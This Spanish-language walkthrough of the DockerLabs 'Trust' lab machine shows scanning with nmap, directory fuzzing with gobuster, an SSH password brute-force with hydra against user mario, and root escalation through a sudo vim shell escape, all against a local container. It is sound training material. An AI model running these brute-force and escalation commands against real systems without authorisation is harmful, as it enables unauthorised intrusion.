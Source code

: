 # 🐧Máquina Trust

![trust.jpeg](%F0%9F%90%A7Ma%CC%81quina%20Trust%2081d2f901b8944b09bffa1714bd1461e2/trust.jpeg)

**Índice**

# Requisitos previos.

---

### 💿 Instalar Docker.

Para utilizar las máquinas de DockerLabs, hay que instalar Docker en el sistema operativo.

Agrega más detalles aquí…

```bash
sudo apt install docker.io
```

![instalarDocker.jpeg](%F0%9F%90%A7Ma%CC%81quina%20Trust%2081d2f901b8944b09bffa1714bd1461e2/instalarDocker.jpeg)

### 🖥️ Desplegar máquinas vulnerables.

Al descomprimir el archivo.tar obtenemos dos archivos: 

- auto_deploy.sh
- maquinaVulnerable.tar

```bash
sudo bash auto_deploy.sh maquinaVulnerable.tar
```

![Untitled](%F0%9F%90%A7Ma%CC%81quina%20Trust%2081d2f901b8944b09bffa1714bd1461e2/4ea1c794-cb4f-442d-bdee-49902a27a101.png)

### 🚮 Eliminar máquinas vulnerables.

Al finalizar, eliminamos el laboratorio con la combinación de teclas: “Ctrl + c”

![Untitled](%F0%9F%90%A7Ma%CC%81quina%20Trust%2081d2f901b8944b09bffa1714bd1461e2/326748d7-855e-4464-b984-9c24497538ac.png)

# Reconocimiento

---

### 🕵‍♂️Verifico accesibilidad con el comando ping.

El comando “**ping -c 1**” enviando un solo paquete al host de destino.

```bash
ping -c 1 172.17.0.2
```

![Untitled](%F0%9F%90%A7Ma%CC%81quina%20Trust%2081d2f901b8944b09bffa1714bd1461e2/6d779b3d-db19-48d4-bbfb-f47f47738759.png)

La **ttl = 64** nos indica que se trata de una máquina Linux.

### 🕵‍♂️Escaneo de puertos.

Con la herramienta **nmap realizo un escaneo:**

```bash
sudo nmap -p- --open -sS -sC -sV --min-rate=5000 -n -Pn -vvv 172.17.0.2 -oN scanTrust
```

- -p- ➡️  Busco todos los puertos abiertos dentro de una IP.
- —open ➡️ Escaneo de puertos abiertos.
- -sS ➡️ Escaneo de tipo SYN. Identifica puertos abiertos en un host sin completar la conexión TCP. Realiza un escaneo menos detectable y más rápido.
- -sC ➡️ Conjunto de scripts de reconocimiento para realizar este escaneo dentro de los puertos abiertos.
- -sV ➡️ Dentro de los puertos abiertos, encuentra la versión que esta corriendo.
- —min-rate=5000 ➡️ Velocidad mínima de envió de paquetes durante un escaneo. En este caso se enviarán paquetes a una velocidad no menor de 5000 paquetes por segundo. Se recomienda un —min-rate=2000.
- -n ➡️ evita resolución DNS.
- -Pn ➡️ No realiza ping.
- -vvv ➡️ reporta a medida que obtiene resultados.
- -oN ➡️ guarda el escaneo dentro de un fichero.

![Untitled](%F0%9F%90%A7Ma%CC%81quina%20Trust%2081d2f901b8944b09bffa1714bd1461e2/e9536350-e7b6-41d3-95f4-4d5155dff4e7.png)

# Explotación

---

### 🕵🏼‍♂️ Puerto 80

Ingresamos y por defecto corre una plantilla de Apache2. Busco información relevante en el código HTML con la combinación de teclas “ctrl + u” pero no encuentro nada importante.

![Untitled](%F0%9F%90%A7Ma%CC%81quina%20Trust%2081d2f901b8944b09bffa1714bd1461e2/Untitled.png)

El siguiente paso es encontrar subdirectorios realizando ***fuzzing***  web con la herramienta ***gobuster.***

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x txt,py,php,sh,html
```

![Untitled](%F0%9F%90%A7Ma%CC%81quina%20Trust%2081d2f901b8944b09bffa1714bd1461e2/8bc67b0f-ca6c-4c6b-a872-f993779d8d09.png)

Encuentro el subdirectorio ***/secret.php.*** Me dirijo ahí:

![Untitled](%F0%9F%90%A7Ma%CC%81quina%20Trust%2081d2f901b8944b09bffa1714bd1461e2/Untitled%201.png)

Obtengo información sobre un “posible” usuario: Mario.

### 🕵🏼‍♂️ Puerto 22. Ataque de fuerza bruta.

- Al encontrar el usuario Mario, resta realizar un ataque de fuerza bruta al protocolo SSH con la herramienta ***hydra***.
    
    ```bash
    sudo hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
    ```
    
    ![Untitled](%F0%9F%90%A7Ma%CC%81quina%20Trust%2081d2f901b8944b09bffa1714bd1461e2/13b58196-1851-47a5-899c-255901c5d04b.png)
    
    Encuentro la contraseña para el usuario mario.
    

# Intrusión

---

### 🔓Accediendo al sistema.

Al obtener usuario y contraseña, ingreso por el puerto 22, protocolo SSH.

```bash
ssh mario@172.17.0.2
```

![Untitled](%F0%9F%90%A7Ma%CC%81quina%20Trust%2081d2f901b8944b09bffa1714bd1461e2/ac13200f-10da-43d3-a543-c1fa9dd1cea2.png)

Con el comando ***whoami*** verifico quién soy para ver si tengo acceso o no, como usuario root.

![Untitled](%F0%9F%90%A7Ma%CC%81quina%20Trust%2081d2f901b8944b09bffa1714bd1461e2/fe5b1c5a-a257-42e5-a26d-c8fbaadf828f.png)

### 🔓Escalada de privilegios.

Una vez hayamos obtenido acceso remoto al servidor, es necesario proceder con la escalada de privilegios, para poder convertirnos en el usuario root del sistema y así contar con todo tipo de permisos sobre el mismo.

Con el comando ***sudo -l*** voy a comprobar posibles formas de escalar privilegios.

```bash
mario@6780e3f83dab:~$ sudo -l
```

![Untitled](%F0%9F%90%A7Ma%CC%81quina%20Trust%2081d2f901b8944b09bffa1714bd1461e2/b40aafb7-66f1-4e75-8421-c3b7c66dc2c3.png)

En [https://gtfobins.github.io/](https://gtfobins.github.io/) puedo ver instrucciones para poder escalar privilegios utilizando binarios. Teniendo en cuenta que el usuario **mario** puede ejecutar el binario ***vim***. Lo busco en el apartado de **sudo.**

![Untitled](%F0%9F%90%A7Ma%CC%81quina%20Trust%2081d2f901b8944b09bffa1714bd1461e2/5ae74dea-3229-4d95-a5e8-5e9dee857484.png)

```bash
sudo /usr/bin/vim -c ':!/bin/sh'
```

Al ejecutar este comando ya dejo de ser el usuario **mario** para pasar a ser el usuario **root.**

![Untitled](%F0%9F%90%A7Ma%CC%81quina%20Trust%2081d2f901b8944b09bffa1714bd1461e2/3e6f9ac3-0c27-4dad-b637-532329ffa1ac.png)

---